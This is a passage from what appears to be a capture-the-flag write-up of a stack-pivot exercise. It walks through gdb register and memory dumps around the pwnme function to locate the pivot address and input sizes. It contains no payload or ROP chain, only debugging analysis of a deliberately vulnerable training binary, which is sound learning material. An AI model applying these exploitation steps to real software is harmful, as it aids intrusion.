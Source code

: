 ```
0x7fb2f2a99f60:	0x3a3a3a3a3a3a3a3a	0x3b3b3b3b3b3b3b3b
0x7fb2f2a99f70:	0x0000000000000000	0x0000000000000000
0x7fb2f2a99f80:	0x0000000000000000	0x0000000000000000
```
- From the disassembly (`0x0000000000400950 <+95>:	mov edx,0x100`), we also know that the 1st input will read up to 0x100 == 256 bytes of input

- The program hasn't read in our 2nd input yet, so we expect the stack to be also be in a state just prior to receiving that 2nd input
- Also note that for this execution `rbp-0x28 == 0x7ffd738679c0-0x28 == 0x7ffd73867998`
- Value stored at `0x7ffd73867998` is `0x00007fb2f2a99f10`, which is our pivot address
```
rbp            0x7ffd738679c0      0x7ffd738679c0
rsp            0x7ffd73867990      0x7ffd73867990
[...]
Stack:
0x7ffd73867990:	0x00007ffd73867ad0	0x00007fb2f2a99f10
0x7ffd738679a0:	0x0000000000000000	0x0000000000000000
0x7ffd738679b0:	0x0000000000000000	0x0000000000000000
0x7ffd738679c0:	0x00007ffd738679e0	0x00000000004008cc
0x7ffd738679d0:	0x00007fb2f2a99f10	0x00007fb2f1a9a010
0x7ffd738679e0:	0x0000000000000000	0x00007fb2f2ac50b3
0x7ffd738679f0:	0x0000000000000031	0x00007ffd73867ad8
0x7ffd73867a00:	0x00000001f2c86618	0x0000000000400847
```

- Execute the next instruction and analyse the output:
> (gdb) `ni`  
```
rax            0x40                64
rbx            0x4009d0            4196816
rcx            0x7fb2f2baf142      140406553243970
rdx            0x40                64
rsi            0x7ffd738679a0      140726541646240
rdi            0x0                 0
rbp            0x7ffd738679c0      0x7ffd738679c0
rsp            0x7ffd73867990      0x7ffd73867990
r8             0x2                 2
r9             0x2                 2
r10            0x400b34            4197172
r11            0x246               582
r12            0x400760            4196192
r13            0x7ffd73867ad0      140726541646544
r14            0x0                 0
r15            0x0                 0
rip            0x40099b            0x40099b <pwnme+170>
eflags         0x203               [ CF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
Pivot:
0x7fb2f2a99f10:	0x3030303030303030	0x3131313131313131
0x7fb2f2a99f20:	0x3232323232323232	0x3333333333333333
0x7fb2f2a99f30:	0x3434343434343434	0x3535353535353535
0x7fb2f2a99f40:	0x3636363636363636	0x3737373737373737
0x7fb2f2a99f50:	0x3838383838383838	0x3939393939393939
0x7fb2f2a99f60:	0x3a3a3a3a3a3a3a3a	0x3b3b3b3b3b3b3b3b
0x7fb2f2a99f70:	0x0000000000000000	0x0000000000000000
0x7fb2f2a99f80:	0x0000000000000000	0x0000000000000000
Stack:
0x7ffd73867990:	0x00007ffd73867ad0	0x00007fb2f2a99f10
```